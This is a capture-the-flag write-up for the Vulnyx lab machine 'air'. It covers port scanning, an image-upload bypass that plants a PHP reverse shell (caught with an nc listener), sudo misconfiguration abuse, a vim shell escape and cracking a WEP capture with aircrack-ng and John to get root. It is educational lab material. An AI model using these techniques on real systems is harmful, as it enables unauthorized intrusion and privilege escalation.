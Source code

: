 # **Vulnyx**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/1d217752-2e3f-41a3-998d-1db0aaeb2c3c)

***

Running our nmap scan we have 3 opened ports


```
# Nmap 7.94SVN scan initiated Sat May 25 00:09:32 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.43.6
Nmap scan report for air (192.168.43.6)
Host is up (0.00033s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 0e:95:f2:88:f3:0f:ca:38:ec:da:3c:c0:cd:19:20:41 (ECDSA)
|_  256 53:21:e1:34:a6:f0:70:2b:87:e7:cf:3d:6b:85:9d:64 (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Welcome to nginx!
| http-methods: 
|_  Supported Methods: GET HEAD
8080/tcp open  http    nginx 1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://air.nyx:8080/
|_http-server-header: nginx/1.22.1
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 25 00:09:41 2024 -- 1 IP address (1 host up) scanned in 9.32 seconds
```



Navigating to port 80/HTTP we have this nginx default web page 


![](https://i.imgur.com/j3igbX7.png)



We can go ahead and perform a directory bruteforce using the `dirsearch` tool 



![](https://i.imgur.com/0zaSreg.png)



We have a suspicious `/files` directory 



![](https://i.imgur.com/KCgT3PC.png)



Navigating to port 8080 we are refereed to air.nyx


![](https://i.imgur.com/vEgylpH.png)


Go ahead and add this domain to our `/etc/hosts` file



![](https://i.imgur.com/LTBzGSQ.png)


Navigating to the web page we have this 



![](https://i.imgur.com/gfCoobR.png)


Clicking on the upload bar i was able to upload image files 



![](https://i.imgur.com/B3qluU8.png)



....and yeah the upload directory was guessable (CTF experience :D)


![](https://i.imgur.com/FCseSpd.png)




So i created a php reverse shell with the file name `shell.php#.png`


![](https://i.imgur.com/VLU8XWs.png)


Still turns out we where caught, sooo the best bet is to fire up burp suite



![](https://i.imgur.com/SInpspq.png)



We where able to bypass this by uploading a valid image and then stripping out few data from this file replacing it with our php reverse shell payload



![](https://i.imgur.com/OIE5lAM.png)



Then we can navigate to http://air.nyx:8080/uploads/wtf.php and then start up our listener in which we should get a reverse shell


```
nc -lvnp 4444
```



![](https://i.imgur.com/c3Gmp12.png)


Then we can stabilize our shell


```
python3 -c 'import pty;pty.spawn("/bin/bash")'
[Ctrl+z]
stty raw -echo;fg
export TERM=xterm-256color
```



Running `sudo -l` we have writable permissions to a file called `air-repeater` as user **sam**



![](https://i.imgur.com/AaDXd53.png)



We can move laterally to user **sam** by copying the `/bin/bash` shell here



```
cp /bin/bash air-repeater
sudo -u sam /opt/air-repeater 
```




![](https://i.imgur.com/69SHU6E.png)




Running `sudo -l` again we can run the binary `/usr/bin/vifm` as user **xiao**



![](https://i.imgur.com/q2jDvx9.png)



Running `sudo -u xiao /usr/bin/vifm` we are dropped in some kind of interface where we have the content of user **xiao** directory



![](https://i.imgur.com/KYB9PmG.png)



Pressing the enter key on the `user.txt` file we are dropped into vim, we can get a shell as user **xiao** by doing the below


![](https://i.imgur.com/aHPixsX.png)


......and we got a shell xD


![](https://i.imgur.com/uZYfgbi.png)



Running linpeas i found a sus file under `/var/backups`


![](https://i.imgur.com/vGllvJj.png)



Then i unzipped this file to the `/tmp` directory


```
unzip Air-Master.zip -d /tmp
```



![](https://i.imgur.com/J1sSAXC.png)



Using [this](https://www.reviversoft.com/en/file-extensions/ivs) article i was made to realize that `.ivs` files are Initialization Vector Files used by `Aircrack-ng` as well as other applications for WEP wireless network key cracking. So let transfer the `.ivs` file to our machine.



![](https://i.imgur.com/4Zoa4do.png)



Using [this](https://github.com/openwall/john/issues/371#issuecomment-23950687) article i was made to understand that this is complex but hell yeah, there is always a way. First of all create `.hccap` file from the original `.ivs` file


```bash
aircrack-ng -J new Air-Master-01.ivs
```


![](https://i.imgur.com/EVcys8O.png)



Then use `hccap2john` to convert the `.hccap` file to a crack able file by `JtR`


```
hccap2john new.hccap > hash.txt
```



Now crack the hash with `JtR`


```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```




![](https://i.imgur.com/ueWhGRz.png)



Password => `cheerleading`



Let try the password for the user root


![](https://i.imgur.com/y09rUoN.png)



Which works xD, Have a nice day
